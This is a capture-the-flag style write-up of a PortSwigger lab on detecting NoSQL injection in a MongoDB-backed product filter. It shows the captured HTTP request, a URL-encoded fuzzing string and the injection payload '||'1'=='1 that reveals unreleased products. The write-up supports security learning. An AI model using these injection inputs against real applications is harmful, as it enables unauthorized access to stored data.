 ```yaml
---
title: Detecting NoSQL injection
description: PortSwigger NoSQli Lab
---
```

https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection

The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

## Discovery

Product category request
```http
GET /filter?category=Corporate+gifts HTTP/2
Host: 0a40001604766a14811e762e003d00ca.web-security-academy.net
Cookie: session=YHafF9Gt36VFuHgvai9iJYl9QnSYyGjo
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a40001604766a14811e762e003d00ca.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

This returns 3 items:
![](../../../../public/images/PS_NoSQL_Lab_20250607%20_173803.png)
Testing for NoSQL injection
```http
GET /filter?category=%27%22%60%7b%20%3b%24%46%6f%6f%7d%20%24%46%6f%6f%20%5c%78%59%5a HTTP/2
```

Server responds with an "Internal Server Error" showing that MongoDB is being used.
![](../../../../public/images/PS_NoSQL_lab_20250607%20_171300.png)

## Exploit
Payload
```
'||'1'=='1
```

Request
```http
GET /filter?category=Pets%27||%271%27==%271 HTTP/2
```

The `category=gifts` filter now returns all items after a NoSQL injection bypasses the query restriction.
![](../../../../public/images/PS_NoSQL_Lab_20250607%20_174006.png)